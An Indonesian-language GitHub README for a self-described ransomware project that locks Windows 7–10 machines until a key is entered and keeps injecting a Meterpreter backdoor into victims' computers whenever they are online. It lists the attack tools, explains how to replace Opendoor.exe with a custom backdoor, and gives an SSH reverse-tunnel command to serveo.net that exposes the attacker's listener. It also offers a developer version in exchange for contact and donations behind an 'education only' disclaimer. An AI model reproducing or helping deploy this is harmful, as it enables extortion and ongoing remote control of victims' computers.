 # My Ransomeware 2018

[Catatan]

- Jalankan software pada virtual operating system yang berjalan pada VMWare atau virtualBox

- Jangan merubah nama folder (VirusUI), mengedit nama file pada folder tersebut jika anda menjalankan pada BypassWinSetup.exe

[Alat yang digunakan]

- Windows sub system linux (WSL) - Kali Linux

- Metasploit

- SSH

- VMWare

[Cara Kerja Software]

- Windows akan terkunci dan anda tidak bisa melakukan apa2 karna system inti di nonaktifkan cara satu2nya anda harus unlock dengan memasukan encrypt key ke dalam software untuk kambali ke seperti semula

- Selama komputer victim terhubung ke internet, maka komputer victim akan terus tersuntikan meterpreter dengan komputer penyerang secara realtime


[Opendoor.exe]

- jika anda sudah memiliki pengetahuan tentang pembuatan file backdoor, anda bisa merubah reverse untuk meterpreter dengan menimpah file Opendoor.exe dengan backdoor buatan anda.


[SSH]

- Backdoor mendengarkan port 9998 dengan IP 159.89.214.31 dari seveo.net

- [cmd] -> ssh -R 9998:127.0.0.1:4444 darksite@serveo.net


[Tested Works]

- Windows 10 versi up

- windows 8

- windows 7

[Screenshoot]

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS1.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS2.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS3.PNG)

![alt tag](https://github.com/webmestudio/myransomeware/blob/master/screenshoot/RS4.PNG)

[Tujuan]

- Ini untuk edukasi saja, jadi gunakan dengan bijak :D

- jika anda menginginkan versi developer software ini anda bisa hubungi saya. 

- Kasih saya donasi untuk kopi dan rokok
